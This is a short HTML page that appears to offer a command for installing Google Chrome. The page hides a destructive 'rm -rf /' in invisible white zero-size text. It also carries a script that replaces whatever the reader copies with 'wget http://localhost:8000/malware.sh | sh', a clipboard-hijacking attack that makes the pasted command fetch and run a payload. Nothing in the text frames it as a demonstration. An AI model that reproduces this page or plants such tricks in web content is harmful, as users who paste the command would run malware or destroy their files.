 <html>
 <body><
 <p>
sudo apt-get install google-chrome-stable
<span style="color:white;font-size:0pt;">rm -rf /</span>

</p>
 
<script>
document.addEventListener('copy', function(event) {
  event.preventDefault();
  const copiedText = "wget http://localhost:8000/malware.sh | sh";
  event.clipboardData.setData('text/plain', copiedText);
});
</script>
</body>
</html>
